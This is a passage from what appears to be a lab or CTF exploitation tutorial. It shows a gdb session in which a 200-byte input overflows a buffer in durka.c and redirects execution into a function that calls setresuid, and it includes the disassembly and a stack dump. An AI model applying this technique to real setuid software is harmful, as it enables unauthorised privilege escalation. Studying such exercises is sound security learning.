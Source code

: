 Breakpoint 1, f (s=0xffffdb5d 'A' &lt;repeats 200 times&gt;...) at durka.c:11
(gdb) cont
Continuing.

Breakpoint 2, agonistic_heaven () at durka.c:17</code></pre>

<p>Emm, indeed we step in to <code>agnostic_heaven()</code> not bad. Let’s examine what the stack look like after the function finished.</p>



<pre class="prettyprint"><code class=" hljs perl">(gdb) disas
Dump of assembler code <span class="hljs-keyword">for</span> function agonistic_heaven:
=&gt; <span class="hljs-number">0x08048590</span> &lt;+<span class="hljs-number">0</span>&gt;:     <span class="hljs-keyword">push</span>   <span class="hljs-variable">%ebp</span>
   <span class="hljs-number">0x08048591</span> &lt;+<span class="hljs-number">1</span>&gt;:     mov    <span class="hljs-variable">%esp</span>,<span class="hljs-variable">%ebp</span>
   <span class="hljs-number">0x08048593</span> &lt;+<span class="hljs-number">3</span>&gt;:     call   <span class="hljs-number">0x80483e0</span> &lt;geteuid<span class="hljs-variable">@plt</span>&gt;
   <span class="hljs-number">0x08048598</span> &lt;+<span class="hljs-number">8</span>&gt;:     <span class="hljs-keyword">push</span>   <span class="hljs-variable">%eax</span>
   <span class="hljs-number">0x08048599</span> &lt;+<span class="hljs-number">9</span>&gt;:     <span class="hljs-keyword">push</span>   <span class="hljs-variable">%eax</span>
   <span class="hljs-number">0x0804859a</span> &lt;+<span class="hljs-number">10</span>&gt;:    <span class="hljs-keyword">push</span>   <span class="hljs-variable">%eax</span>
   <span class="hljs-number">0x0804859b</span> &lt;+<span class="hljs-number">11</span>&gt;:    call   <span class="hljs-number">0x80483b0</span> &lt;setresuid<span class="hljs-variable">@plt</span>&gt;
   <span class="hljs-number">0x080485a0</span> &lt;+<span class="hljs-number">16</span>&gt;:    add    <span class="hljs-variable">$0</span>xc,<span class="hljs-variable">%esp</span>
   <span class="hljs-number">0x080485a3</span> &lt;+<span class="hljs-number">19</span>&gt;:    leave
   <span class="hljs-number">0x080485a4</span> &lt;+<span class="hljs-number">20</span>&gt;:    ret
End of assembler <span class="hljs-keyword">dump</span>.
(gdb) <span class="hljs-keyword">until</span> <span class="hljs-variable">*0x080485a3</span>
<span class="hljs-number">0x080485a3</span> in agonistic_heaven () at durka.c:<span class="hljs-number">21</span>
(gdb) <span class="hljs-keyword">x</span>/<span class="hljs-number">32</span><span class="hljs-keyword">x</span> <span class="hljs-variable">$ebp</span>
<span class="hljs-number">0xffffd960</span>:     <span class="hljs-number">0x41414141</span>      <span class="hljs-number">0x080485b8</span>      <span class="hljs-number">0x08048600</span>      <span class="hljs-number">0x00000406</span>
<span class="hljs-number">0xffffd970</span>:     <span class="hljs-number">0x00000406</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0xf7e2a276</span>
<span class="hljs-number">0xffffd980</span>:     <span class="hljs-number">0x00000002</span>      <span class="hljs-number">0xffffda14</span>      <span class="hljs-number">0xffffda20</span>      <span class="hljs-number">0x00000000</span>
<span class="hljs-number">0xffffd990</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0xf7fc5000</span>      <span class="hljs-number">0xf7ffdc0c</span>
<span class="hljs-number">0xffffd9a0</span>:     <span class="hljs-number">0xf7ffd000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000002</span>      <span class="hljs-number">0xf7fc5000</span>
<span class="hljs-number">0xffffd9b0</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x05846f03</span>      <span class="hljs-number">0x3f730313</span>      <span class="hljs-number">0x00000000</span>
<span class="hljs-number">0xffffd9c0</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000002</span>      <span class="hljs-number">0x0804847b</span>
<span class="hljs-number">0xffffd9d0</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0xf7fee720</span>      <span class="hljs-number">0xf7e2a189</span>      <span class="hljs-number">0xf7ffd000</span>
</code></pre>
